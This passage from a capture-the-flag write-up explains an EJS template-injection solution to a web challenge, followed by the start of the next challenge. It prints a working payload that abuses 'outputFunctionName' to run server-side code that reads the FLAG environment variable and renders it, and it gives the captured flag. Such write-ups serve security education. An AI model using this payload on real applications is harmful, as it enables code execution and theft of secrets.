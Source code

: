 * This was the payload available in the PoC, but the challenge had no network access, so we couldn't get a reverse shell.

* However, in the PoC, we observed that the `__append` function can be used to render something back in the HTML.

* Therefore, we used this approach to retrieve the flag.

```
Final Payload = breed=Pekin&settings[view options][outputFunctionName]=x;var flag = Deno.env.get('FLAG');__append(flag);s
```
* And it successfully rendered the flag on the html back.

![Flag](./images/bcactf/duck/flag.png)

**Flag**: `bcactf{a_l1Ttl3_0uTd4T3d_qYR8IeICVTLPU0uK}`


# Web/Michaelsoft Gring
> **Description** : From the makers of famous operating system Binbows comes a new search engine to rival the best: Gring. The sqlite database is super secure and has only the best search results picked by our custom AI (we forgot to train it but that's not important). \
> **Author** : `Jacob Korn`

